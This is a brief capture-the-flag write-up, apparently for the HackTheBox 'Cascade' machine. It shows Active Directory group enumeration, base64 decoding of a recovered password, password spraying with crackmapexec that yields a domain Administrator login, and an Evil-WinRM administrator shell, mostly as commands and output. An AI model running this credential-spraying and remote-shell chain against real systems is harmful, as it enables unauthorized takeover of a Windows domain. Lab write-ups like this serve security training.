

# 20 - PrivEsc 2


# [AD Recycle Bin Group](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#ad-recycle-bin)
```powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents>> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```



```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ echo -n YmFDVDNyMWFOMDBkbGVz |base64 -d
baCT3r1aN00dles┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ cme smb 10.10.10.182 -u ~/htb/cascade/user.lst -p 'baCT3r1aN00dles'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)
```


# Shell

```powershell
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]                                                   
└──╼ $ evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
                                                                                               
Evil-WinRM shell v2.4                                                                          
                                                                                               
Info: Establishing connection to remote endpoint                                               
                                                                                               
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```